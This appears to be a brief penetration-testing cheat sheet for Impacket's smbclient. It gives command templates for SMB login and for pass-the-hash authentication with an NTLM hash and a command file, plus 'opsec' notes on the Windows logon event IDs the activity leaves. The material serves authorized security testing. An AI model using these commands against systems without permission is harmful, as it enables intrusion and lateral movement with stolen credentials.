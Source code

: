### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py  

### Impacket smbclient (supports pass-the-hash)
```
impacket-smbclient <domain>/<user>:<password>@<rhost>
```

### Using pass the hash and file with commands to execute
```
impacket-smbclient -hashes :<ntlmHash> <domain>/<user>@<rhost> -file <commandFile>.txt
```

### Opsec considerations - Windows Security Log Event IDs
```
-Logon (4624) -> multiple
-Special Logon (4672) -> multiple
```


